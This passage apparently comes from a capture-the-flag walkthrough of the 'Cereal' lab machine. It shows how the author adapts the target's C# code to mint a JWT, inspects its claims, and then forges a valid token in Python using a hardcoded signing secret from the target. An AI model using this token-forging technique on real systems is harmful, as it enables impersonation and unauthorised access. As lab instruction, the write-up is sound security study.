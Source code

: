 Clicking on “using System.Security.Claims” will add that line. A combination
of those two will leave me with only two errors left:

[![image-20210526210209051](https://0xdfimages.gitlab.io/img/image-20210526210209051.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210526210209051.png)

I’m not going to import the entire Cereal `User` class. The first reference to
it is just looking for a user ID as a string. I’ll just set it to a number,
say “223”.

The last reference is storing the token. I don’t want to store it, I want to
print it. So I’ll replace that entire line with
`Console.WriteLine(tokenHandler.WriteToken(token));`.

Now I’ll Debug –> Start Without Debugging (or Ctrl+F5):

[![image-20210526210532588](https://0xdfimages.gitlab.io/img/image-20210526210532588.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210526210532588.png)

There’s a JWT! Throwing it into [jwt.io](https://jwt.io) gives the payload:

    
    
    {
      "unique_name": "223",
      "nbf": 1622077520,
      "exp": 1622682320,
      "iat": 1622077520
    }
    

Playing around a bit more (and reading a bit), it turns out that either `name`
or `unique` name will work here. Also, `nbf` (“not before”) and `iat` (“issued
at)”) are not needed, so I can get by with just `name` and `exp` (“expires”).

### Create JWT

Putting all of that together, I’ll create a JWT using Python:

    
    
    #!/usr/bin/env python3          
              
    import jwt
    from datetime import datetime, timedelta
    
    
    print(jwt.encode({'name': "1", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256"))
    

I’ll generate a token:

    
    
    oxdf@parrot$ python genJWT.py 
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMSIsImV4cCI6MTYxOTg2NDE0MX0.Tkq0nNGzOzvCoJgPAti9skOHvIVZHu47VF1dQsKez28
    
